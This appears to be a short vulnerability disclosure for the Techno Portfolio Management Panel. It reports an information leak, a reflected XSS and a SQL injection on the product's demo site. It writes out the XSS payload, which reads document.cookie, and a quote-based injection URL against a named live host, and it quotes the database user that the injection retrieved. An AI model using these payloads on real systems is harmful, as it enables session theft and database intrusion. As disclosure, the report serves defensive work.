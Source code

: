 ###Techno Portfolio Management Panel - SQL Injection/XSS/Information leak

Well,  when I pentest the official demo site of Techno Portfolio Management Panel.

I found when I login into the backend,  it left some vulnerabilities here.

##### Information leak:

URL: http://dacy.esy.es/eng/panel/search.php?s=1'

For example, we can get some sensitive data here like the absolute path:

/home/u633631124/public_html/eng/panel/search.php

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Techno-Portfolio-Management-Panel/info_leak.png)


##### xss:

URL: http://dacy.esy.es/eng/panel/search.php?s=123%27%22%3E%3Csvg/onload=alert(document.cookie)%3E%3C%27%22

For example, We can get the site cookie here or do something more evilly. 

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Techno-Portfolio-Management-Panel/xss.png)


##### SQL Injection:


![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Techno-Portfolio-Management-Panel/sqli.png)

URL: http://dacy.esy.es/eng/panel/search.php?s=1

For example, We can get database user or other info here , using some tools or just by hand:

current user:    'u633631124_dacy@10.2.1.20'


